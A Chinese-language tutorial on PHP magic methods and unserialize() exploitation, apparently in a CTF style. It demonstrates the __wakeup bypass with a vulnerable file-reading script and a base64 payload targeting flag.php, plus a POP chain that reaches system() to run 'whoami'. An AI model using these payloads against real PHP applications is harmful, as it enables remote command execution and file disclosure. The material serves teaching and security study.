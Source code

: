 ## 魔术方法

```
__construct(),类的构造函数
__destruct(),类的析构函数
__call(),在对象上下文中调用不可访问的方法时调用
__callStatic(),在静态上下文中调用不可访问的方法时调用
__get(),用于从不可访问的属性读取数据,有时可用于构造POP链
__set(),用于将数据写入不可访问的属性
__isset(),当对不可访问属性调用isset()或empty()时调用
__unset(),当对不可访问属性调用unset()时被调用
__sleep(),执行serialize()时,先会调用这个函数
__wakeup(),执行unserialize()时,先会调用这个函数
__toString(),类被当成字符串时的回应方法,有时可用于构造POP链
__invoke(),当脚本尝试将对象调用为函数时触发
```

### __sleep()与__wakeup()

```php
<?php 
class Demo{
    public function __construct($a,$b,$c){
        $this->a=$a;
        $this->b=$b;
        $this->c=$c;
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
    public function showstr(){
        echo $this->str.'<br>';
    }
    public function __sleep(){//serialize前调用
        echo __METHOD__.'<br>';
        return array('a','c');//只返回了$this->a和$this->c,返回需要被序列化存储的成员属性,删减不必要
    }
    public function __wakeup(){//unserialize前调用
        echo __METHOD__.'<br>';
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
}

highlight_file(__FILE__);
$test=new Demo('asdf','qwer','1234');
$test->showstr();
$s_test=serialize($test);
echo $s_test.'<br>';
$u_test=unserialize($s_test);
$u_test->showstr();
?>
```

```
a asdf,b qwer,c 1234
Demo::__sleep
O:4:"Demo":2:{s:1:"a";s:4:"asdf";s:1:"c";s:4:"1234";}
Demo::__wakeup
a asdf,b ,c 1234
```

### __toString()

```php
<?php 
class Demo{
    public function __construct($a,$b,$c){
        $this->a=$a;
        $this->b=$b;
        $this->c=$c;
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
    public function __toString(){
        return $this->str;
    }
}

highlight_file(__FILE__);
$test=new Demo('asdf','qwer','1234');
echo $test;
?>
```

```
a asdf,b qwer,c 1234
```

[常见触发方法](https://www.cnblogs.com/bmjoker/p/13742666.html)

1. `echo($obj)`或`print($obj)`打印时会触发

2. 反序列化对象与字符串连接时

3. 反序列化对象参与格式化字符串时

4. 反序列化对象与字符串进行==比较时(PHP进行==比较的时候会转换参数类型)

5. 反序列化对象参与格式化SQL语句,绑定参数时

6. 反序列化对象在经过php字符串函数,如`strlen()`,`addslashes()`时
   
7. 在in_array()方法中,第一个参数是反序列化对象,第二个参数的数组中有toString返回的字符串的时候toString会被调用

8. 反序列化的对象作为`class_exists()`的参数的时候

### 绕过__wakeup()

**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

>仅使用于 PHP5<5.6.25 PHP7<7.0.10

```php
<?php 
class SoFun{ 
    protected $file='index.php';
    function __destruct(){
        if(!empty($this->file)) {
            if(strchr($this-> file,"\\")===false&&strchr($this->file, '/')===false){
                show_source(dirname (__FILE__).'/'.$this ->file);
            }
            else{
                die('Wrong filename.');
            }
        }
    }
    function __wakeup(){
        $this-> file='index.php';
    } 
    public function __toString(){
        return '';
    }
}     
if(!isset($_GET['file'])){ 
    show_source('index.php');
}
else{
    $file=base64_decode($_GET['file']);
    unserialize($file);
}
?>
```

`O:5:"SoFun":1:{s:7:"*file";s:9:"index.php";}`

`O:5:"SoFun":2:{s:7:"*file";s:8:"flag.php";}`

payload`?file=Tzo1OiJTb0Z1biI6Mjp7Uzo3OiIAKgBmaWxlIjtzOjg6ImZsYWcucGhwIjt9`

### __call()与__invoke()

在对象中调用一个不可访问方法时`__call()`会被调用

```php
<?php

class A
{
    public $class;
    public $parameter;

    public function __destruct()
    {
        if (isset($this->class) && isset($this->parameter)) {
            $this->class->system($this->parameter);
        }

    }
}

class B
{
    public function __call($callback,$parameter)#callback=system
    {
        call_user_func_array($callback,$parameter);
    }
}
$str = '???';
unserialize($str);
```

```php
<?php

class A
{
    public $class;
    public $parameter;
}

class B
{

}

$a=new A();
$b=new B();
$a->class=$b;
$a->parameter="whoami";
var_dump(serialize($a));
```

`O:1:"A":2:{s:5:"class";O:1:"B":0:{}s:9:"parameter";s:6:"whoami";}`

当尝试以调用函数的方式调用一个对象时`__invoke()`方法会被自动调用

```php
<?php

class A
{
    public function __invoke($a)
    {
        var_dump($a);
    }
}

$a = new A;
$a("asdf");
```